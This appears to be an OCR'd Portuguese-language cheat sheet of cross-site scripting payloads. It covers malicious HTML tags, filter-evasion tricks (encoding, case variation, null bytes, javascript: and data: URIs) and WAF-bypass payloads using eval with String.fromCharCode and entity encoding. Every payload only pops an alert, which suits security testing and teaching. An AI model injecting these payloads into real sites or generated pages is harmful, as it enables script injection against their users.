 ### **Tags HTML Maliciosas**
```html
<!-- Script básico -->
<script>alert('XSS')</script>

<!-- Eventos de imagem -->
<img src=x onerror="alert('XSS')">
<img src="javascript:alert('XSS')">

<!-- Eventos de formulário -->
<input type="text" onfocus="alert('XSS')" autofocus>
<textarea onmouseover="alert('XSS')">Texto</textarea>

<!-- SVG vectors -->
<svg onload="alert('XSS')">
<svg><script>alert('XSS')</script></svg>

<!-- Body events -->
<body onload="alert('XSS')">
<body onpageshow="alert('XSS')">
```

### **Técnicas de Evasão de Filtros**
```html
<!-- Encoding de caracteres -->
<script>alert('XSS')</script>
<script>alert(&#39;XSS&#39;)</script>
<script>alert(\u0027XSS\u0027)</script>

<!-- Case variation -->
<ScRiPt>alert('XSS')</ScRiPt>
<SCRIPT>alert('XSS')</SCRIPT>

<!-- Quebra de tags -->
<img src="x" onerror="al
ert('XSS')">

<!-- Null bytes -->
<img src=x%00 onerror="alert('XSS')">

<!-- Protocol handlers -->
<a href="javascript:alert('XSS')">Click</a>
<a href="data:text/html,<script>alert('XSS')</script>">Click</a>
```

### **Bypass WAF (Web Application Firewall)**
```html
<!-- Encoding alternativo -->
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">

<!-- String obfuscation -->
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>

<!-- Template literals -->
<script>`${alert`XSS`}`</script>

<!-- Comments injection -->
<img src="x" onerror="alert('XSS'/*comment*/)">
```
